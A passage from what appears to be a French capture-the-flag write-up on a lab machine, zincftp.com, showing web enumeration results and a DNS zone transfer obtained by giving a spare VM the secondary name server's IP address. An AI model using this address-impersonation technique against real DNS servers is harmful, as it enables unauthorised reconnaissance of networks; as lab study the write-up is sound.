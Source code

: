 Finalement j'ai fait une énumération web qui m'a trouvé quelques fichiers et dossiers dont 3 donnent un 403 (accès refusé) :

```
200       43l      127w     1205c http://zincftp.com/index.php
403       10l       33w      329c http://zincftp.com/phpMyAdmin
200        1l        2w       16c http://zincftp.com/register.php
403       10l       33w      332c http://zincftp.com/server-status
200        0l        0w        0c http://zincftp.com/dbconn.php
403       10l       33w      331c http://zincftp.com/setup_guides
```

J'ai fait un long tour de ces domaines ce qui n'était ni utile ni agréable.

J'ai du me débloquer en trouvant l'astuce sur le web : il fallait récupérer l'adresse IP du serveur DNS secondaire et on découvrait que ce n'était pas la même que celle du serveur :

```
$ dig -t A ns2.zincftp.com @192.168.1.88

; <<>> DiG 9.18.9 <<>> -t A ns2.zincftp.com @192.168.1.88
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 2693
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;ns2.zincftp.com.               IN      A

;; ANSWER SECTION:
ns2.zincftp.com.        38400   IN      A       192.168.1.89

;; AUTHORITY SECTION:
zincftp.com.            38400   IN      NS      ns2.zincftp.com.
zincftp.com.            38400   IN      NS      ns1.zincftp.com.

;; ADDITIONAL SECTION:
ns1.zincftp.com.        38400   IN      A       192.168.1.88

;; Query time: 0 msec
;; SERVER: 192.168.1.88#53(192.168.1.88) (UDP)
;; WHEN: Sun Dec 04 22:51:00 CET 2022
;; MSG SIZE  rcvd: 108

```

J'avais une vieille VM CentOS 5 qui trainait, sans doute utilisée un jour pour compiler un exploit spécifique. Je l'ai reconfiguré avec l'adresse `192.168.1.89` et j'ai fait le transfert de zone :

```shellsession
# dig -t AXFR zincftp.com @192.168.1.88
; <<>> DiG 9.3.6-P1-RedHat-9.3.6-4.P1.el5_4.2 <<>> -t AXFR zincftp.com @192.168.1.88                                   
;; global options:  printcmd                                                                                           
zincftp.com.        38400   IN  SOA ns1.zincftp.com. ns2.zincftp.com. 2006071801 28800 3600 604800 38400               
zincftp.com.        38400   IN  NS  ns1.zincftp.com.                                                                   
zincftp.com.        38400   IN  NS  ns2.zincftp.com.                                                                   
zincftp.com.        38400   IN  MX  10 mta.zincftp.com.                                                                
zincftp.com.        38400   IN  A   192.168.1.88                                                                       
```
